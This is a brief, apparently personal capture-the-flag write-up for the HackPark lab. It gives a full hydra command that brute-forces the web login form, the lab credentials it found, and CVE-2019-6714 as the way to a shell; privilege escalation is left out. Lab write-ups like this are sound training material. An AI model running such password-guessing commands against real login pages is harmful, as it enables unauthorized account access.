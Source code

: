 # THM: HackPark
# OS: Linux (Medium)

## Foothold

[WEB]
**Port 80**
- Bruteforcing login with at `/Account/login.aspx?ReturnURL=%2fadmin%2f` with `2020-200_most_used_passwords.txt` gave us valid credentials
  `sudo hydra -l admin -P /usr/share/wordlists/seclists/Passwords/2020-200_most_used_passwords.txt $ip http-post-form '/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=kXMNlbTKbix%2B14qmHOqISoCUaB6dJM2R4aT7yPKcwATfkV84OoUx5SOKs8XC7ocbSpzqfMSgTzdM834LBjKVBA4MM8ldbD9E4mavlmhSpW8d1l8EqPmd9vgZUpM6rPJXeIa0Eyjd%2BSRxTQfriG8Xtbav05hZQeyMvAznho5QT4SNQQtU&__EVENTVALIDATION=dmW1GN1EnSqA0xI7X%2BMSa74lEx3IJV7hEVzxk2oyRgnVoIo%2FwdyPfKFvXcWVztwsHV%2FhIu5zfcd752QC3xiJxZhRrduowlx3CE7q9ZiDq14WkT3xXqviYEgAfMUTANtd92rry8Bgq8%2FykEv2CX9g0YaiQcin7%2B49vCXUxNofsuOy%2F1pC&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'`
  `admin:1qaz2wsx`

- Found CVE:
  - `CVE-2019-6714`
    Got shell as `iis apppool\blog`

Note:
  I'm uploading this long time after I've done the ctf and seemingly I didn't take notes for the privesc :)
  After some time, I decided to give more attention to note taking while doing this path. (And preferably in general)
